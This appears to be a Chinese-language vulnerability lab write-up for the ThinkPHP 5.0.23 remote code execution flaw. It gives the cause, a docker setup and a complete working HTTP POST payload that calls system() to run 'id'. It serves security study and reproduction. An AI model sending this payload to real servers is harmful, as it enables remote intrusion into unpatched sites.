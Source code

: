 # ThinkPHP5 5.0.23 远程代码执行漏洞

ThinkPHP是一款运用极广的PHP开发框架。其5.0.23以前的版本中，获取method的方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞。

参考链接：

- https://github.com/top-think/framework/commit/4a4b5e64fa4c46f851b4004005bff5f3196de003

## 漏洞环境

执行如下命令启动一个默认的thinkphp 5.0.23环境：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到默认的ThinkPHP启动页面。

## 漏洞复现

发送数据包：

```
POST /index.php?s=captcha HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

成功执行`id`命令：

![](1.png)

